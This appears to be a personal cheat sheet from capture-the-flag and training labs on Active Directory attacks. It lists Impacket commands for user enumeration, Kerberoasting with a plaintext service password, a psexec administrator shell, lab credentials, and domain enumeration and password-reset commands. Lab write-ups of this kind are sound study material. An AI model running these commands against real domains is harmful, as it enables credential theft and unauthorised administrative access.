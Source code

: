 ### Impacket
- `impacket-GetADUsers -all active.htb/SVC_TGS  -dc-ip 10.10.10.100`
- `impacket-GetUserSPNs -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request`
  
### Sync Time
- `sudo apt install ntpdate`
- `sudo ntpdate 10.10.10.100`

### Admin Access
- `impacket-psexec active.htb/Administrator@10.10.10.100`

## EAD

### DNS Configuration
- `Alt+f2 > nm-connection-editor > IP Setting` (DNS conf)
- `sudo systemctl restart NetworkManager`
- `cat /etc/resolv.conf`

### Credentials & Hosts
- [TryHackMe Creds](http://distributor.za.tryhackme.com/creds)
  - kenneth.davies : Password1 > newPassword1
  - Username: kimberley.smith Password: Password!
- **Jump Host**: Use Remmina or similar for RDP
  - `sudo apt install remmina`
  - `ssh za.tryhackme.com\\<AD_Username>@thmjmp1.za.tryhackme.com`

### Windows Native Binary
- `runas.exe /netonly /user:<domain>\\<username> cmd.exe`

### SYSVOL & Kerberos vs NTLM
- SYSVOL: `dir \\za.tryhackme.com\SYSVOL\`
- Kerberos (FQDM, default) vs NTLM (IP)

### Windows Commands
- `net user /domain`
- `net user zoe.marshall /domain`
- `net group /domain`
- `net accounts /domain`

### PowerShell Commands
- `Get-ADUser -Identity gordon.stevens -Server za.tryhackme.com -Properties *`
- `Get-ADUser -Filter 'Name -like "*stevens"' -Server za.tryhackme.com | Format-Table`
- `Get-ADGroup -Identity Administrators -Server za.tryhackme.com`
- `Get-ADGroupMember -Identity Administrators -Server za.tryhackme.com`
- `Set-ADAccountPassword -Identity gordon.stevens -Server za.tryhackme.com -OldPassword (ConvertTo-SecureString -AsPlaintext "old" -force) -NewPassword (ConvertTo-SecureString -AsPlainText "new" -Force)`
